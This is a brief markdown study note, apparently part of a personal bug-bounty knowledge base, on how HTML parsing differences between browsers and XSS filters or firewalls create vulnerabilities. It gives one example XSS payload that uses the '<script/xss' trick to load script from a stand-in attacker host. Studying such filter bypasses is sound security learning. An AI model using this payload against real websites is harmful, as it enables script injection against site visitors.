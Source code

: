 # Web in Depth: HTML
(How to do bug bounties from [hackerone](https://www.hacker101.com/start-here))
## Parsing:
HTML *should* be parsed by the relevant protocol, such as #HTML5.
### Security:
There are more things parsing the HTML than the browser. HTML is also being parsed by [firewalls](../../../defense/firewalls.md) to find vulnerabilities such as [XSS](../../../TTPs/exploitation/injection/XSS.md).

*If there are any discrepancies* b/w how the browser and the firewall parse the HTML, this can be leveraged by an attacker (creates a vulnerability). 
#### Example:
You go to `http://example.com/vulnerable?` which has a script in the HTML:
```HTML
name=<script/xss%20src=http://evilsite.com/my.js>
```
Which generates the following page:
```HTML
<!doctype html><html>
	<head>
		<title> Vulnerable page names <script/xss src=http://evilsite.com/my.js></title>
	</head>
</html>
```
A 'bad' #XSS filter on a web application may not see `script/xss` as a script tag. However Firefox's HTML parser will *treat the slash as whitespace* which enables the attack.

> [!Resources]
> - [hacker 101: The Web in Depth](https://www.hacker101.com/sessions/web_in_depth.html)
